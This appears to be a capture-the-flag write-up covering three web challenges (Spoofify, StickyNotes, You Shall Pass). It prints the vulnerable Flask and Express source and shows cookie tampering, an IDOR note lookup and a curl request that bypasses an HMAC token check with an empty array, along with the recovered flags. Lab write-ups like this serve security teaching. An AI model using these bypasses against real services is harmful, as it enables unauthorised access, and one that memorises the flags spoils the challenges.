



* TOC
{:toc}

## Spoofify

**Category**: web

**Author**: s_jams

**Description**: Spoofify has Free and Premium tiers. Premium listeners get no ads, offline downloads, and an unlock code for this week's unreleased drop.

You're on Free... or are you?

Hint: The site has to remember your plan somehow. Check what your browser is sending back on every request.

`https://spoofify-web.wolvctf-2026.kctf.cloud`

Going to the challenge site:



Change the cookie to `premium`:



`wctf{pr3m1um_pl4yl1st_n0_p4ym3nt_n33ded}`

___

## StickyNotes

**Category**: web

**Author**: ethandhomnic

**Description**: I keep all my notes in StickyNotes. Surely nobody else can read them.

`https://stickynotes-web.wolvctf-2026.kctf.cloud/`

I get the challenge files:
```shell
untar dis.tar.gz  
description.md  
challenge/  
challenge/flag.txt  
challenge/app.py  
challenge/Dockerfile  
challenge/requirements.txt
```

Contents of `app.py`:
```python
import os
from threading import Lock

from flask import Flask, abort, redirect, render_template_string, request, session

app = Flask(__name__)
app.secret_key = os.environ.get("SECRET_KEY", os.urandom(24))
app.config["MAX_CONTENT_LENGTH"] = 4096
FLAG = os.environ.get("FLAG")
if FLAG is None:
    with open(os.environ.get("FLAG_FILE", "/app/flag.txt"), encoding="utf-8") as flag_file:
        FLAG = flag_file.read().strip()

notes = {
    1: {"owner": "admin", "title": "Flag", "body": FLAG},
    2: {"owner": "admin", "title": "Meeting", "body": "Standup at 10."},
}
next_id = 3
notes_lock = Lock()

LOGIN = """
<h1>StickyNotes</h1>
<form method="post">
  <input name="username" placeholder="pick a username" required>
  <button>Enter</button>
</form>
"""

LIST = """
<h1>{{ user }}'s notes</h1>
<ul>

  <li><a href="/note/{{ i }}">{{ n.title }}</a></li>

  <li>No notes yet.</li>

</ul>
<form method="post">
  <input name="title" placeholder="title" required>
  <input name="body" placeholder="body" required>
  <button>Add note</button>
</form>
"""

VIEW = '<h1>{{ note.title }}</h1><p>{{ note.body }}</p><a href="/notes">back</a>'


@app.route("/", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        name = request.form.get("username", "").strip()
        if not name:
            return "Please choose a username.", 400
        if name.lower() == "admin":
            return "Nice try.", 403
        session["user"] = name
        return redirect("/notes")
    return render_template_string(LOGIN)


@app.route("/notes", methods=["GET", "POST"])
def my_notes():
    global next_id
    user = session.get("user")
    if not user:
        return redirect("/")
    if request.method == "POST":
        title = request.form.get("title", "").strip()
        body = request.form.get("body", "").strip()
        if not title or not body:
            return "A title and body are required.", 400
        with notes_lock:
            if len(notes) >= 5000:
                return "Note storage is full.", 503
            notes[next_id] = {"owner": user, "title": title, "body": body}
            next_id += 1
    with notes_lock:
        mine = {i: n for i, n in notes.items() if n["owner"] == user}
    return render_template_string(LIST, mine=mine, user=user)


@app.route("/note/<int:note_id>")
def view_note(note_id):
    if "user" not in session:
        return redirect("/")
    note = notes.get(note_id)
    if not note:
        abort(404)
    return render_template_string(VIEW, note=note)


if __name__ == "__main__":
    # In-memory notes require one process; do not enable a multi-worker server.
    app.run(host="0.0.0.0", port=int(os.environ.get("PORT", "5000")))
```

I go to the site and enter a username. I created a test note which shows `https://stickynotes-web.wolvctf-2026.kctf.cloud/note/31`.

I went to `https://stickynotes-web.wolvctf-2026.kctf.cloud/note/1`:



`wctf{idor_is_not_a_real_lock}`

___

## You Shall Pass

**Category**: web

**Author**: ulisesalan

**Description**: An authentication service asks you to log in with a user and token. It checks every submitted token against a signature on file. Admin access is ordinarily off limits, but does the verifier really check every token before admitting a login?

Send a POST request to /login with a JSON body containing a user and a token.

`https://you-shall-pass-web.wolvctf-2026.kctf.cloud/`

I get the challenge file `server.js`:
```js
const express = require("express");
const crypto = require("crypto");
const fs = require("fs");

const app = express();
app.use(express.json());

const SECRET = crypto.randomBytes(32).toString("hex");
const FLAG = fs.readFileSync("/flag.txt", "utf8").trim();

function expectedToken(user) {
  return crypto.createHmac("sha256", SECRET).update(user).digest("hex");
}

app.post("/login", (req, res) => {
  const { user, token } = req.body || {};

  if (user !== "admin") {
    return res.status(403).json({ error: "unknown user" });
  }

  const expected = expectedToken(user);

  const tokens = [].concat(token);
  if (!tokens.every((candidate) => candidate === expected)) {
    return res.status(403).json({ error: "bad token" });
  }

  return res.json({ flag: FLAG });
});

app.get("/", (req, res) => res.sendStatus(200));

const PORT = process.env.PORT || 3000;
app.listen(PORT, "0.0.0.0", () => console.log("listening on " + PORT));
```

The bug is the use of `tokens.every(...)` after normalizing `token` with `[].concat(token)`.

```shell
curl -s -X POST 'https://you-shall-pass-web.wolvctf-2026.kctf.cloud/login' -H 'Content-Type: application/json' -d '{"user":"admin","token":[]}'  
{"flag":"wctf{acc011233b7b476af70ecf802cf7dc7b}"}
```

`wctf{acc011233b7b476af70ecf802cf7dc7b}`
